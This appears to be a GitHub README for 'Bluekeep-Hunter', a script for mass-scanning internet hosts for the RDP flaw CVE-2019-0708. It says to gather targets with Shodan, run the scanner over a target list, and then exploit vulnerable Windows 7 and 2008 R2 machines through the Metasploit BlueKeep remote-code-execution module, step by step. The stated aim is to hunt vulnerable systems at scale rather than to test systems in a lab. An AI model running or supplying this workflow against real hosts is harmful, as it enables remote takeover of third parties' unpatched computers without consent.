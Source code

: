 # Bluekeep-Hunter
CVE-2019-0708

This uses metasploit module in order to scan and check if CVE-2019-0708 exists or not.
The objective of this exploit is to mass hunt for Bluekeep vulnerabilities. This can be done via shodan https://www.shodan.io/search?query=vuln%3ACVE-2019-0708
To obtain the list in linux one can use shodan search vuln:CVE-2019-0708

Install and Usage:
To install clone this repository.
cd Bluekeep-Hunter
chmod +x bluekeephunter.sh
./bluekeephunter.sh targets.txt

Additional: To view usage ./blukeephunter.sh -h

This will scan and give you the vulnerable targets. To exploit:
 Start **msfconsole**
 use exploit/rdp/cve_2019_0708_bluekeep_rce
 set RHOSTS to target hosts (x64 Windows 7 or 2008 R2)
 set PAYLOAD and associated options as desired
 set TARGET to a more specific target based on your environment
 run
 
 **DEMONSTRATION:**
 
 ![FINALDEMOBLUE](https://user-images.githubusercontent.com/48627542/190843346-8a6e5340-e9d6-403c-ace0-337890f4ec05.gif)
